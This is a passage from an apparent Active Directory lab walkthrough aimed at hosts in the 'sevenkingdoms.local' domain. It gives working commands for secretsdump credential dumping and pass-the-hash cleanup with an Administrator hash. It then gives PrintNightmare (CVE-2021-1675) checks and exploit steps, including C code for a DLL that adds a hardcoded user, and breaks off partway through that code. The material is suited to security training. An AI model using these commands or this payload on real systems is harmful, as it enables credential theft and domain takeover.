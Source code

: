 ```
secretsdump.py -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' @'winterfell.north.sevenkingdoms.local'


#Now clean up by deleting the computer we created with the administrator account hash we just get
addcomputer.py -computer-name 'samaccountname$' -delete -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH -hashes 'aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4' 'north.sevenkingdoms.local/Administrator'

```

## PrintNightmare (CVE-2021-1675)
### Check spooler is active
```
cme smb 192.168.56.10-23 -M spooler
#or
rpcdump.py @192.168.56.10 | egrep 'MS-RPRN|MS-PAR'
```

### Exploit
`git clone https://github.com/cube0x0/CVE-2021-1675 printnightmare`

Prepare the dll (the following code in nightmare.c) with the purpose of creating a new user named pnightmareuser
Source: https://github.com/newsoft/adduser 
```
/*
 * ADDUSER.C: creating a Windows user programmatically.
 */

#define UNICODE
#define _UNICODE

#include <windows.h>
#include <string.h>
#include <lmaccess.h>
#include <lmerr.h>
#include <tchar.h>


DWORD CreateAdminUserInternal(void)
{
    NET_API_STATUS rc;
    BOOL b;
    DWORD dw;

    USER_INFO_1 ud;
    LOCALGROUP_MEMBERS_INFO_0 gd;
    SID_NAME_USE snu;

    DWORD cbSid = 256;    // 256 bytes should be enough for everybody :)
    BYTE Sid[256];

    DWORD cbDomain = 256 / sizeof(TCHAR);
    TCHAR Domain[256];

    // Create user
    memset(&ud, 0, sizeof(ud));

    ud.usri1_name        = _T("pnightmareuser");                // username
    ud.usri1_password    = _T("Test123456789!");             // password
```